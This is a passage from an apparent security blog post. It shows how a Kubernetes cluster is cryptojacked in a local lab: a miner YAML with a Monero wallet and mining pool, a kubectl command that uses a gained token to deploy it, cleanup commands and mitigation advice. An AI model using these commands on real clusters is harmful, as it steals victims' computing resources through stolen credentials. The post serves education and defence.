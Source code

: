 ```yaml
        env:
          # Monero Project Donation
        - name: WALLET
          value: 888tNkZrPN6JsEgekjMnABU4TBzc2Dt29EPAvkRxbANsAnjyPbb3iQ1YBRk1UXcdRsiKc9dhwMVgN5S9cQUiyoogDavup3H
        - name: POOL
          value: pool.hashvault.pro:3333
```
[miner-template.yaml](https://cdn.ruse.tech/k8/miner.yaml)

## Deploying

Using our gained access we run a single command. 

```bash
kubectl --insecure-skip-tls-verify=true  \
          --server="https://172.17.0.2:8443"   \
          --token="$TOKEN"  \
		  apply -f miner.yaml
```


![miners.png](https://cdn.ruse.tech/imgs/kubernetes-cryptojacking/miners.png)

You can easily remove these miners with the following command.

```bash
kubectl --insecure-skip-tls-verify=true  \
          --server="https://172.17.0.2:8443"   \
          --token="$TOKEN"  \
		  remove -f crypto.yaml
		  
# Tear down the cluster
minikube delete --all
```


## Wrap Up

The best mitigation for this is to make sure Kubelet APIs have authentication enabled and if possible do not expose them to the internet. A second fail-safe is using the principle of least privilege for pods using service accounts. In this case, the service account had full admin access. I am currently exploring ransomware in K8 and plan on publishing the script. So keep an eye out.





